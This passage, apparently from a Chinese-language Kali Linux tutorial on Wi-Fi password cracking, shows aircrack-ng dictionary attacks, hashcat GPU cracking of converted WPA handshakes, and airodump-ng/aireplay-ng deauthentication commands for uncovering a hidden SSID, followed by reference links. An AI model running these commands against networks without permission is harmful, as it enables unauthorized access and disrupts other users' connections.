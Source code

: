 -w指定字典文件

最后是抓取的包

![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G016111Ga23.JPG)

可选）使用显卡的运算能力

如果你有一个强大的GPU，为什么不使用GPU跑字典呢？

Hashcat可以借助GPU的运算力破解各种不同算法的hash值。

下载时要注意选择正确的显卡类型（AMD、NVidia）。Kali Linux自带这个工具。

在破解cap文件之前，要把它转换为hccap文件：

\# aircrack-ng file.cap -J out.hccap

使用GPU破解hash：

\# hashcat -m 2500 out.hccap 字典文件

### 破解隐藏网络(隐藏SSID)

难度：⭐

![使用Reaver破解开启了WPS功能的wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G016112542O7.JPG)

**查看方法：**

~~~shell
airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 wlan0mon
aireplay-ng -0 30 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon
~~~

 


## 参考

[无线网络的加密方式：WEP、WPA和WPA2](xie1997.blog.csdn.net/article/details/83316451)

[使用Reaver破解开启了WPS功能的wifi密码(wpa/wpa2)](https://ywnz.com/linuxaq/113.html)

[无线安全专题_破解篇02--kali破解pin](https://cloud.tencent.com/developer/article/1152164)

[无线局域网安全（一）———WEP加密](https://blog.csdn.net/lee244868149/article/details/52691266)

[从黑客角度来谈如何保护路由器-WPS破解方式（一）](https://zhuanlan.zhihu.com/p/41463410)

[网络安全--跑PIN破解WiFi(详细教程)](https://blog.csdn.net/a1397852386/article/details/125572633)

[WPA3---SAE原理介绍](https://blog.csdn.net/weixin_43408952/article/details/83044719)

[什么是WPA3](https://info.support.huawei.com/info-finder/encyclopedia/zh/WPA3.html)
